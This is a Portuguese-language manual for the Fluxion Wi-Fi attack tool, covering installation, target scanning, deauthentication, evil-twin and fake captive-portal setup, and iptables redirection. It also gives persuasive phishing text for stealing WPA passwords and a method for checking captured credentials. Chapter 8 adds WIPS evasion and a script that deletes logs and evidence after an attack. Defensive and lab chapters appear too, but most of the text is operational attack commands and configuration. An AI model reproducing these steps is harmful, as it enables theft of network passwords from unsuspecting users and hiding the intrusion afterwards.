


# 🔓 Manual Completo: Fluxion - Ferramenta de Auditoria Wi-Fi

```
⚠️ AVISO LEGAL E ÉTICO
=====================
Este manual é apenas para fins EDUCACIONAIS e de TESTES DE PENETRAÇÃO AUTORIZADOS.
A utilização destas técnicas em redes sem autorização explícita é ILEGAL e constitui crime.
Use apenas em redes próprias ou com permissão POR ESCRITO dos proprietários.
O autor não se responsabiliza pelo uso indevido desta informação.
```

## 🎯 Introdução ao Fluxion

### O que é o Fluxion?
Fluxion é uma **ferramenta de auditoria de segurança Wi-Fi** que utiliza ataques de engenharia social para testar a segurança de redes WPA/WPA2. Diferente de ferramentas de força bruta, o Fluxion "engana" os usuários para obter a senha legítima.

### Arquitetura do Ataque


### Casos de Uso Legítimos
- ✅ Testes de penetração autorizados
- ✅ Auditoria de segurança de redes corporativas
- ✅ Educação em segurança cibernética
- ✅ Testes de conscientização de usuários
- ✅ Pesquisa acadêmica em segurança

## 📦 Capítulo 1: Instalação e Configuração

### 1.1 Requisitos do Sistema
```bash
# Verificar sistema operacional
$ lsb_release -a
# Debian/Ubuntu/Kali recomendados

# Requisitos mínimos
- Processador: Dual-core 2.0GHz+
- RAM: 2GB+ (4GB recomendado)
- Espaço: 10GB livre
- Placa Wi-Fi: Compatível com modo monitor
- Sistema: Linux (preferencialmente Kali)

# Verificar placa wireless
$ iwconfig
$ airmon-ng
```

### 1.2 Instalação no Kali Linux
```bash
# Método 1: Instalação direta (recomendado)
sudo apt update
sudo apt install fluxion

# Mét método 2: Instalação manual
git clone --depth 1 https://github.com/FluxionNetwork/fluxion.git
cd fluxion
sudo ./fluxion.sh

# Instalar dependências
sudo apt install -y \
    isc-dhcp-server \
    hostapd \
    lighttpd \
    php-cgi \
    xterm \
    wpasupplicant \
    aircrack-ng \
    pkg-config \
    libssl-dev \
    zlib1g-dev \
    libpcap-dev
```

### 1.3 Instalação em Outras Distribuições
```bash
# Ubuntu/Debian
sudo apt update
sudo apt install git
git clone https://www.github.com/FluxionNetwork/fluxion.git
cd fluxion
sudo ./fluxion.sh -i

# Arch Linux
sudo pacman -S git
git clone https://www.github.com/FluxionNetwork/fluxion.git
cd fluxion
sudo ./fluxion.sh -i

# Fedora/RHEL
sudo dnf install git
git clone https://www.github.com/FluxionNetwork/fluxion.git
cd fluxion
sudo ./fluxion.sh -i
```

### 1.4 Configuração da Placa Wi-Fi
```bash
# Verificar compatibilidade
$ sudo airmon-ng

# Exemplo de placas compatíveis:
# - Alfa AWUS036NHA/NH/AC
# - TP-Link TL-WN722N v1
# - Panda PAU05/PAU06/PAU09
# - Raspberry Pi (com chipset compatível)

# Configurar interface
$ sudo ifconfig wlan0 down
$ sudo iwconfig wlan0 mode monitor
$ sudo ifconfig wlan0 up

# Ou usar airmon-ng
$ sudo airmon-ng start wlan0
```

### 1.5 Resolução de Problemas de Instalação
```bash
# Problema: Dependências faltando
$ sudo ./fluxion.sh -i  # Forçar instalação de dependências

# Problema: Permissões
$ chmod +x *.sh
$ sudo chmod +x /usr/local/bin/fluxion

# Problema: Placa não detectada
$ sudo airmon-ng check kill
$ sudo modprobe -r nome_driver
$ sudo modprobe nome_driver

# Problema: Interface em modo managed
$ sudo airmon-ng start wlan0
$ sudo iwconfig wlan0 mode monitor
```

## 🚀 Capítulo 2: Interface e Navegação

### 2.1 Menu Principal do Fluxion
```
┌─────────────────────────────────────────────────────┐
│ FLUXION v6.9 - The Future of MITM WPA Attacks       │
├─────────────────────────────────────────────────────┤
│ Language Selection:                                 │
│   [1] English                                       │
│   [2] Português (Brasil)                            │
│   [3] Español                                       │
│   ...                                               │
│                                                     │
│ Main Menu:                                          │
│   [1] Start scanning for targets                    │
│   [2] Select target network manually                │
│   [3] About Fluxion                                 │
│   [4] Credits & Thanks                              │
│   [5] Exit Fluxion                                  │
│                                                     │
│ Select option [1-5]: _                              │
└─────────────────────────────────────────────────────┘
```

### 2.2 Fluxo de Trabalho Típico


### 2.3 Teclas e Atalhos
```
Navegação Geral:
  Setas (↑↓)     - Navegar menus
  Enter          - Selecionar opção
  Tab            - Alternar entre elementos
  Ctrl+C         - Cancelar operação atual
  Ctrl+Z         - Pausar/continuar

Janelas específicas:
  Alt+Tab        - Alternar entre terminais
  F11            - Tela cheia (em alguns terminais)
  Ctrl+Shift+C   - Copiar do terminal
  Ctrl+Shift+V   - Colar no terminal
```

## 🔍 Capítulo 3: Scan e Seleção de Alvos

### 3.1 Iniciando o Scan
```bash
# Executar fluxion
sudo ./fluxion.sh

# Opção 1: Scan automático
Selecionar: [1] Start scanning for targets

# Opção 2: Seleção manual
Selecionar: [2] Select target network manually

# Configurar interface
[?] Select wireless interface: wlan0mon
[?] Scanning duration (seconds): 30
```

### 3.2 Interpretando Resultados do Scan
```
┌─────────────────────────────────────────────────────────┐
│ WiFi Networks Found: 12                                 │
├─────┬────────────────┬────────┬──────┬──────┬──────────┤
│ #   │ ESSID          │ CH │ PWR │ CLI │ ENC  │ VENDOR   │
├─────┼────────────────┼────────┼──────┼──────┼──────────┤
│ 1   │ HomeNetwork    │ 6  │ -42 │ 3   │ WPA2 │ TP-Link  │
│ 2   │ NETGEAR123     │ 11 │ -55 │ 1   │ WPA  │ Netgear  │
│ 3   │ Starbucks WiFi │ 1  │ -61 │ 12  │ Open │ Cisco    │
│ 4   │ AndroidAP      │ 6  │ -48 │ 0   │ WPA2 │ Samsung  │
│ 5   │ xfinitywifi    │ 6  │ -65 │ 5   │ Open │ Comcast  │
│ 6   │ Dlink_5G       │ 36 │ -62 │ 2   │ WPA2 │ D-Link   │
└─────┴────────────────┴────────┴──────┴──────┴──────────┘

Legenda:
  CH    - Canal
  PWR   - Potência do sinal (dBm)
  CLI   - Clientes conectados
  ENC   - Tipo de criptografia
  VENDOR- Fabricante do roteador
```

### 3.3 Critérios de Seleção de Alvo
```bash
# Alvos preferenciais (mais fáceis):
1. Redes com múltiplos clientes ativos (CLI > 1)
2. Sinal forte (PWR > -60 dBm)
3. Redes domésticas (gerenciamento menos profissional)
4. WPA/WPA2-Personal (não Enterprise)
5. Fabricantes conhecidos (mais templates disponíveis)

# Alvos a evitar (iniciais):
1. Redes empresariais com 802.1X
2. Redes com sinal muito fraco (PWR < -75 dBm)
3. Redes sem clientes ativos
4. WPA3 (suporte limitado)
```

### 3.4 Salvando e Carregando Sessões
```bash
# Fluxion salva automaticamente:
- Redes scaneadas em: fluxion/attacks/FluxionScan*
- Configurações em: /tmp/fluxion/*

# Para continuar sessão posteriormente:
1. Iniciar Fluxion normalmente
2. Selecionar rede manualmente
3. Inserir dados salvos:
   - BSSID (MAC do AP)
   - Canal
   - ESSID (nome da rede)
   - Tipo de criptografia
```

## ⚔️ Capítulo 4: Ataques Disponíveis

### 4.1 Tipos de Ataques
```
Fluxion oferece múltiplos vetores de ataque:

1. 🎣 Portal Captivo (Captive Portal)
   - Página de login falsa
   - Mais efetivo para usuários comuns

2. 🔄 Ataque Evil Twin
   - Clone exato do AP legítimo
   - Requer canal diferente

3. 📡 Ataque de Desautenticação (Deauth)
   - Desconecta clientes do AP real
   - Força conexão ao AP falso

4. 🕵️ Ataque de Handshake
   - Captura handshake WPA
   - Para posterior quebra offline
```

### 4.2 Portal Captivo - Método Detalhado
```bash
# Passo a passo do ataque de portal captivo:
1. Scan e seleção de rede
2. Ataque Deauth para desconectar clientes
3. Criação de AP falso com mesmo ESSID
4. Configuração de servidor web com portal falso
5. Redirecionamento de tráfego para portal
6. Coleta de credenciais inseridas
7. Verificação automática da senha
```

#### Estrutura do Portal Falso:
```
/var/www/html/fluxion/  # Diretório do portal
├── index.html          # Página de login
├── style.css           # Estilos
├── script.js           # Lógica JavaScript
├── images/             # Logos e imagens
│   ├── logo.png        # Logo do fabricante
│   └── background.jpg
└── submit.php          # Processa credenciais
```

### 4.3 Ataque Evil Twin Avançado
```bash
# Configuração avançada do Evil Twin:
# 1. Clonar configurações exatas do AP
sudo iw dev wlan1 scan | grep -A 20 "SSID: TargetNetwork"

# 2. Configurar hostapd personalizado
cat > hostapd.conf << EOF
interface=wlan1
driver=nl80211
ssid=TargetNetwork
channel=6
hw_mode=g
auth_algs=1
wpa=2
wpa_passphrase=senha_temporaria
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
rsn_pairwise=CCMP
EOF

# 3. Iniciar AP falso
sudo hostapd hostapd.conf
```

### 4.4 Comparação de Métodos
```
Método            | Eficácia | Detectabilidade | Complexidade
------------------|----------|-----------------|-------------
Portal Captivo    | Alta     | Média           | Baixa
Evil Twin         | Média    | Alta            | Média
Deauth+Handshake  | Baixa    | Baixa           | Alta
WPS Pixie Dust    | Variável | Baixa           | Alta
```

## 🛠️ Capítulo 5: Configuração de Ataques

### 5.1 Configuração do Ataque Deauth
```bash
# Fluxion usa airmon-ng e aireplay-ng para deauth
# Comando interno gerado:
sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] wlan0mon

# Parâmetros configuráveis:
- Número de pacotes deauth: 10-50 (padrão: 10)
- Intervalo entre ataques: 5-30 segundos
- Alvo: AP apenas ou clientes específicos

# Configuração manual (se necessário):
1. Identificar clientes ativos
   sudo airodump-ng -c [CHANNEL] --bssid [BSSID] wlan0mon
2. Executar deauth para cada cliente
3. Monitorar reconexões
```

### 5.2 Configuração do AP Falso
```bash
# Arquivos de configuração gerados:

# 1. DHCP (isc-dhcp-server)
cat > /etc/dhcp/dhcpd.conf << EOF
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 10.0.0.0 netmask 255.255.255.0 {
    range 10.0.0.100 10.0.0.200;
    option routers 10.0.0.1;
    option domain-name-servers 8.8.8.8, 8.8.4.4;
}
EOF

# 2. HostAPD (ponto de acesso)
interface=wlan1
ssid=[ESSID_ALVO]
channel=[CANAL]
driver=nl80211
hw_mode=g
auth_algs=1
wpa=2
wpa_passphrase=[SENHA_TEMP]
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
rsn_pairwise=CCMP

# 3. Lighttpd (servidor web)
server.document-root = "/var/www/html/fluxion/"
server.port = 80
server.modules = ("mod_rewrite", "mod_redirect")
url.rewrite-once = ( "^/(.*)$" => "/index.html" )
```

### 5.3 Templates de Portal
```bash
# Fluxion inclui templates para diferentes fabricantes:
ls fluxion/attacks/Captive\ Portal/sites/

# Templates disponíveis:
- generic/           # Template genérico
- linksys/           # Linksys
- netgear/           # Netgear
- tplink/            # TP-Link
- dlink/             # D-Link
- asus/              # Asus
- xfinity/           # Xfinity/Comcast
- starbucks/         # Starbucks
- airport/           # Apple Airport

# Personalizar template:
cp -r fluxion/attacks/Captive\ Portal/sites/generic/ custom/
# Editar arquivos em custom/
```

### 5.4 Configuração de Redirecionamento
```bash
# iptables rules geradas pelo Fluxion:
# 1. Limpar regras existentes
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

# 2. Redirecionar tráfego para portal
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 10.0.0.1:80

# 3. Permitir tráfego do portal para internet
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
iptables -A FORWARD -i eth0 -o wlan1 -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## 🎭 Capítulo 6: Engenharia Social com Fluxion

### 6.1 Psicologia do Ataque
```bash
# Elementos de persuasão usados:
1. Urgência: "Atualização de segurança necessária"
2. Autoridade: Logos de fabricantes conhecidos
3. Confiança: HTTPS falso (certificado auto-assinado)
4. Familiaridade: Interface idêntica ao roteador real
5. Medo: Mensagens de "violação de segurança"

# Timing é crucial:
- Atacar quando usuários estão ativos (noite, fim de semana)
- Evitar horários de pico de rede corporativa
- Considerar fuso horário dos usuários
```

### 6.2 Mensagens de Erro Persuasivas
```html
<!-- Exemplo de página de erro convincente -->
<div class="error-message">
    <h3>⚠️ Atualização de Segurança Necessária</h3>
    <p>Detectamos uma tentativa de acesso não autorizado à sua rede.</p>
    <p>Por favor, reinsira sua senha para verificar sua identidade e aplicar patches de segurança.</p>
    <p><strong>Esta ação é necessária para proteger sua rede contra ameaças.</strong></p>
</div>

<!-- Mensagens alternativas -->
- "Mudança de configuração do ISP requer reautenticação"
- "Falha na autenticação WPA2, favor reinserir credenciais"
- "Atualização de firmware pendente - autentique para continuar"
```

### 6.3 Aprimorando a Credibilidade
```bash
# 1. Certificado SSL falso (mas convincente)
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

# 2. Favicon personalizado
# Baixar favicon do fabricante real
wget https://www.tplink.com/favicon.ico -O /var/www/html/favicon.ico

# 3. Metatags de redirecionamento (para parecer mais real)
<meta http-equiv="refresh" content="3;url=https://192.168.1.1">

# 4. JavaScript que simula comportamento real
# Verificar formato da senha
# Simular tempo de processamento
# Mostrar mensagens de progresso
```

### 6.4 Bypass de Medidas de Segurança
```bash
# Para redes com verificações adicionais:

# 1. Clone de MAC Address
sudo ifconfig wlan1 down
sudo macchanger -m [MAC_DO_AP] wlan1
sudo ifconfig wlan1 up

# 2. Spoofing de DHCP fingerprint
# Editar respostas do servidor DHCP
# Para corresponder ao fabricante do AP real

# 3. Bypass de portal inteligente
# Alguns dispositivos verificam conectividade à internet
# Adicionar regra para permitir ping/traceroute
iptables -I FORWARD -p icmp -j ACCEPT

# 4. Contornar verificações de certificado
# Usar nomes de domínio similares
# Certificado para "tp-link.com" vs "tp-link.com"
```

## 📊 Capítulo 7: Monitoramento e Análise

### 7.1 Monitorando o Ataque em Tempo Real
```bash
# Fluxion abre múltiplos terminais:
# Terminal 1: Monitor de rede
sudo airodump-ng -c [CHANNEL] --bssid [BSSID] wlan0mon

# Terminal 2: Ataque deauth
# Mostra pacotes enviados e clientes afetados

# Terminal 3: Servidor AP
# Logs do hostapd e conexões de clientes

# Terminal 4: Servidor Web
# Logs do lighttpd e requisições HTTP

# Terminal 5: Interface Fluxion
# Status geral e interação com usuário

# Verificar logs específicos:
tail -f /var/log/lighttpd/access.log
tail -f /var/log/lighttpd/error.log
journalctl -f -u hostapd
```

### 7.2 Identificando Clientes Conectados
```bash
# Comandos úteis para monitoramento:
# 1. Ver clientes no AP falso
sudo arp-scan --interface=wlan1 --localnet

# 2. Monitorar conexões DHCP
tail -f /var/log/syslog | grep DHCP

# 3. Verificar tráfego
sudo tcpdump -i wlan1 -n -s 0 -w capture.pcap

# 4. Clientes ativos no AP real (para comparação)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
```

### 7.3 Análise de Credenciais Capturadas
```bash
# Fluxion salva credenciais em:
/tmp/fluxion/captured_passwords.txt

# Formato:
[2024-01-15 14:30:25] Network: HomeNetwork
ESSID: HomeNetwork
Password: minhaSenha123
Client MAC: AA:BB:CC:11:22:33
Status: Verified ✓

# Verificar manualmente (se necessário):
# 1. Testar conexão com senha capturada
wpa_passphrase "HomeNetwork" "minhaSenha123" > wpa.conf
wpa_supplicant -i wlan2 -c wpa.conf

# 2. Verificar handshake (para WPA)
aircrack-ng capture.cap -w wordlist.txt
```

### 7.4 Métricas de Sucesso
```bash
# Script para calcular eficácia do ataque
#!/bin/bash
LOG_FILE="/tmp/fluxion/fluxion.log"
CAPTURE_FILE="/tmp/fluxion/captured_passwords.txt"

echo "=== Análise de Ataque Fluxion ==="
echo "Tempo total: $(grep "Attack started" "$LOG_FILE" | tail -1)"
echo "Tentativas de conexão: $(grep "New connection" "$LOG_FILE" | wc -l)"
echo "Credenciais submetidas: $(grep "Password submitted" "$LOG_FILE" | wc -l)"
echo "Senhas capturadas: $(grep -c "^ESSID:" "$CAPTURE_FILE" 2>/dev/null || echo 0)"
echo "Taxa de sucesso: $(echo "scale=2; $(grep -c "^ESSID:" "$CAPTURE_FILE" 2>/dev/null || echo 0) / $(grep "New connection" "$LOG_FILE" | wc -l) * 100" | bc)%"
```

## 🛡️ Capítulo 8: Técnicas de Evasão e Ocultação

### 8.1 Reduzindo a Pegada do Ataque
```bash
# 1. Power ajustado (menor alcance, menor detecção)
sudo iwconfig wlan1 txpower 15  # 15 dBm em vez de 30

# 2. Canal hopping (mudar canais periodicamente)
#!/bin/bash
while true; do
    sudo iwconfig wlan1 channel 1
    sleep 30
    sudo iwconfig wlan1 channel 6
    sleep 30
    sudo iwconfig wlan1 channel 11
    sleep 30
done

# 3. Intervalo de deauth aleatório
# Modificar script do Fluxion:
# Em vez de deauth a cada 10s, usar:
DEAUTH_INTERVAL=$((RANDOM % 20 + 5))  # 5-25 segundos
```

### 8.2 Spoofing de Identificação
```bash
# 1. Spoof MAC Address do AP falso
sudo ifconfig wlan1 down
sudo macchanger -m AA:BB:CC:DD:EE:FF wlan1  # MAC do AP real
sudo ifconfig wlan1 up

# 2. Spoof vendor através de OUI
# Criar MAC com OUI do fabricante alvo
# TP-Link: 00:1D:0F, D-Link: 00:1C:DF, etc.

# 3. Alterar hostname do sistema
sudo hostnamectl set-hostname "router-tplink"
```

### 8.3 Bypass de Sistemas de Detecção
```bash
# Para evitar WIPS (Wireless Intrusion Prevention Systems):

# 1. Usar canais não monitorados (12-14 onde permitido)
sudo iw reg set BO  # Bolívia tem menos restrições
sudo iwconfig wlan1 channel 13

# 2. Ataque de baixa potência
# Operar próximo aos clientes-alvo
# Usar antena direcional

# 3. Timing aleatório
# Não seguir padrões previsíveis

# 4. Evitar beacon floods
# Configurar hostapd para mínimo de beacons
echo "beacon_int=500" >> hostapd.conf  # 500ms em vez de 100ms
```

### 8.4 Limpeza de Evidências
```bash
# Script de limpeza pós-ataque
#!/bin/bash
echo "[*] Limpando evidências do ataque..."

# 1. Parar serviços
sudo systemctl stop lighttpd
sudo systemctl stop hostapd
sudo systemctl stop isc-dhcp-server

# 2. Remover regras iptables
sudo iptables --flush
sudo iptables --table nat --flush
sudo iptables --delete-chain
sudo iptables --table nat --delete-chain

# 3. Remover arquivos temporários
sudo rm -rf /tmp/fluxion/*
sudo rm -rf /var/www/html/fluxion/*

# 4. Resetar interfaces
sudo airmon-ng stop wlan0mon
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up

# 5. Limpar logs
sudo journalctl --vacuum-time=1h
sudo rm -f /var/log/lighttpd/*.log

echo "[+] Limpeza concluída."
```

## ⚠️ Capítulo 9: Troubleshooting e Problemas Comuns

### 9.1 Problemas de Inicialização
```bash
# Erro: "Interface not found"
sudo airmon-ng check kill
sudo airmon-ng start wlan0
# Verificar se wlan0mon foi criada

# Erro: "Failed to set interface to monitor mode"
# Tentar driver alternativo
sudo modprobe -r iwlwifi
sudo modprobe iwlwifi
# Ou usar interface USB diferente

# Erro: "No wireless extensions"
# Verificar compatibilidade da placa
sudo lshw -class network
# Considerar comprar placa compatível (Alfa, Panda)
```

### 9.2 Problemas Durante o Ataque
```bash
# Clientes não se conectam ao AP falso:
1. Verificar potência do sinal
2. Verificar se ESSID está exatamente igual
3. Testar com dispositivo controlado primeiro
4. Verificar se deauth está funcionando

# Portal não aparece:
1. Verificar se lighttpd está rodando
   sudo systemctl status lighttpd
2. Verificar regras iptables
   sudo iptables -t nat -L -v -n
3. Testar acesso manual: curl http://10.0.0.1

# Senha capturada mas incorreta:
1. Verificar template usado
2. Testar senha manualmente
3. Verificar se há caracteres especiais mal interpretados
```

### 9.3 Problemas Específicos por Fabricante
```bash
# TP-Link: Alguns modelos têm verificação extra
# Solução: Usar template específico TP-Link
#          Clonar página de login exata

# Netgear: Portal com JavaScript complexo
# Solução: Capturar página real com mitmproxy
#          Replicar comportamento exato

# Empresarial (802.1X): Não suportado
# Solução: Abortar ataque, focar em redes WPA-Personal

# WPA3: Suporte limitado
# Solução: Usar métodos tradicionais (handshake capture)
#          Ou forçar downgrade para WPA2 (se possível)
```

### 9.4 Otimização de Performance
```bash
# Se o ataque estiver lento ou instável:

# 1. Aumentar potência de transmissão
sudo iwconfig wlan1 txpower 30

# 2. Usar canal menos congestionado
# Escolher canal com menos redes no scan inicial

# 3. Reduzir número de clients monitorados
# Focar em 1-2 clients específicos em vez de broadcast

# 4. Ajustar intervalo de deauth
# Aumentar se clients reconectam muito rápido
# Diminuir se clients não desconectam

# 5. Usar hardware melhor
# Placa Wi-Fi com chipset Atheros AR9271 recomendada
# Antena de alto ganho (9dBi+)
```

## 📚 Capítulo 10: Defesas e Contramedidas

### 10.1 Como Detectar um Ataque Fluxion
```bash
# Sinais de um ataque em andamento:

# 1. Dois APs com mesmo ESSID
sudo airodump-ng wlan0mon | grep -i [ESSID]

# 2. Pacotes deauth excessivos
sudo tcpdump -i wlan0mon -n "type mgt subtype deauth"

# 3. Mudanças no canal do AP
# Monitorar canal do AP real

# 4. Clientes conectados a MAC estranho
arp -a | grep -i [ESSID]

# 5. Logs de autenticação incomuns
grep -i "authentication\|association" /var/log/syslog
```

### 10.2 Medidas Preventivas
```bash
# Para administradores de rede:

# 1. Usar WPA3 quando possível
# Configuração do roteador: WPA3-SAE

# 2. Implementar 802.1X (Enterprise)
# Autenticação por certificado/credenciais individuais

# 3. Monitorar rede com WIPS
sudo apt install snort
# Ou ferramentas especializadas como Kismet, Airwave

# 4. Educar usuários
# Nunca reinserir senha em páginas suspeitas
# Verificar certificados SSL
# Suspeitar de mensagens de "atualização urgente"

# 5. Configurações do roteador:
# - Desabilitar WPS
# - Usar canais menos comuns (5GHz)
# - Habilitar isolamento de clientes (AP isolation)
```

### 10.3 Resposta a Incidentes
```bash
# Se suspeitar de ataque:

# 1. Documentar evidências
sudo tcpdump -i wlan0 -w evidence.pcap
sudo airodump-ng -c [CHANNEL] --write evidence wlan0mon

# 2. Localizar atacante (se possível)
# Direction finding com antena direcional
# Triangulação com múltiplos pontos de monitoramento

# 3. Mitigar ataque
# Bloquear MAC do AP falso no roteador
# Mudar canal da rede
# Alterar senha temporariamente

# 4. Reportar às autoridades
# Manter logs e evidências
# Contatar equipe de segurança da informação
```

### 10.4 Hardening de Redes Wi-Fi
```yaml
# Configuração segura do hostapd:
interface=wlan0
driver=nl80211
ssid=MinhaRedeSegura
hw_mode=g
channel=1
# Segurança:
wpa=3                    # WPA3 quando suportado
wpa_key_mgmt=SAE WPA-PSK
rsn_pairwise=CCMP
wpa_pairwise=CCMP
# Proteções adicionais:
ignore_broadcast_ssid=0  # Não ocultar (não ajuda)
ap_isolate=1             # Isolar clientes
macaddr_acl=0            # Usar lista MAC se possível
wps_state=0              # Desabilitar WPS
# Monitoramento:
logger_syslog=127
logger_stdout=127
```

## 🧪 Capítulo 11: Laboratório de Testes

### 11.1 Ambiente de Teste Seguro
```bash
# Configurar laboratório isolado:
# Requisitos:
# - 2+ computadores (uma como atacante, outra como vítima)
# - Roteador Wi-Fi configurável
# - Rede isolada (sem conexão com internet real)

# Topologia:
# [Atacante: Kali] --(Wi-Fi)--> [AP: Roteador de Teste] <--(Wi-Fi)-- [Vítima: Windows/Android]

# Configurar roteador de teste:
# ESSID: TestLab
# Senha: testpassword123
# Canal: 6
# Segurança: WPA2-Personal

# IMPORTANTE: Não conectar à internet real
```

### 11.2 Scripts de Automação para Testes
```bash
#!/bin/bash
# auto-fluxion-test.sh
# Automatiza testes de diferentes configurações

TARGETS=("TestLab" "GuestNet" "CorpTest")
CHANNELS=(1 6 11)
TEMPLATES=("generic" "tplink" "netgear")

for target in "${TARGETS[@]}"; do
    for channel in "${CHANNELS[@]}"; do
        for template in "${TEMPLATES[@]}"; do
            echo "Testando: $target no canal $channel com template $template"
            
            # Configurar Fluxion
            echo "$target" > /tmp/target_essid.txt
            echo "$channel" > /tmp/target_channel.txt
            echo "$template" > /tmp/portal_template.txt
            
            # Executar ataque (modo automático)
            timeout 300 sudo ./fluxion.sh --auto \
                --essid "$target" \
                --channel "$channel" \
                --template "$template" \
                --interface wlan0mon
            
            # Registrar resultados
            if [ -f "/tmp/fluxion/success.txt" ]; then
                echo "SUCESSO: $target,$channel,$template" >> results.csv
            else
                echo "FALHA: $target,$channel,$template" >> results.csv
            fi
            
            # Limpar para próximo teste
            sudo ./cleanup.sh
            sleep 10
        done
    done
done
```

### 11.3 Testes de Eficácia
```bash
# Métricas a medir:
# 1. Tempo até primeira conexão
# 2. Taxa de sucesso (senhas capturadas/tentativas)
# 3. Tempo médio de captura
# 4. Número de deauths necessários
# 5. Detectabilidade por sistemas WIPS

# Coletar dados:
#!/bin/bash
echo "Iniciando teste em $(date)"
START_TIME=$(date +%s)

# Executar Fluxion
sudo ./fluxion.sh

END_TIME=$(date +%s)
DURATION=$((END_TIME - START_TIME))

echo "Duração do ataque: $DURATION segundos"
echo "Senhas capturadas: $(grep -c "Verified" /tmp/fluxion/captured_passwords.txt)"
```

### 11.4 Testes com Diferentes Dispositivos Vítima
```bash
# Testar eficácia em diferentes SOs:

# 1. Windows 10/11
# Comportamento: Auto-reconexão agressiva
# Vulnerabilidades: Cache de credenciais

# 2. Android
# Comportamento: Notificações de rede disponível
# Vulnerabilidades: Menos verificação de certificados

# 3. iOS
# Comportamento: Mais cauteloso, verifica certificados
# Vulnerabilidades: Menos comum, mas ainda vulnerável

# 4. Linux
# Comportamento: Depende do network manager
# Vulnerabilidades: Configurações variadas

# 5. IoT Devices
# Comportamento: Reconexão automática
# Vulnerabilidades: Pouca interação do usuário
```

## 📈 Capítulo 12: Relatórios e Documentação

### 12.1 Template de Relatório de Teste
```markdown
# Relatório de Teste de Penetração Wi-Fi

## Informações do Teste
- Data: [DATA]
- Responsável: [NOME]
- Autorização: [NÚMERO DO DOCUMENTO]
- Escopo: [REDES TESTADAS]

## Metodologia
1. Reconhecimento: Scan de redes disponíveis
2. Seleção de Alvo: [ESSID DO ALVO]
3. Execução do Ataque: Método Portal Captivo
4. Coleta de Evidências: Logs e capturas
5. Análise: Verificação de credenciais

## Resultados
### Rede: [NOME DA REDE]
- BSSID: [MAC ADDRESS]
- Canal: [NÚMERO]
- Segurança: WPA2-Personal
- Clientes Ativos: [NÚMERO]

### Tempo de Ataque
- Início: [HORA]
- Fim: [HORA]
- Duração: [X] minutos

### Credenciais Capturadas
- Total de Tentativas: [N]
- Credenciais Válidas: [N]
- Taxa de Sucesso: [X]%

## Vulnerabilidades Identificadas
1. [DESCRIÇÃO DA VULNERABILIDADE]
   - Criticidade: Alta/Média/Baixa
   - Impacto: [DESCREVER IMPACTO]
   - Recomendação: [MEDIDA CORRETIVA]

## Evidências
- [ ] Logs do Fluxion
- [ ] Capturas de pacotes
- [ ] Screenshots
- [ ] Credenciais (armazenadas com segurança)

## Recomendações
1. [RECOMENDAÇÃO 1]
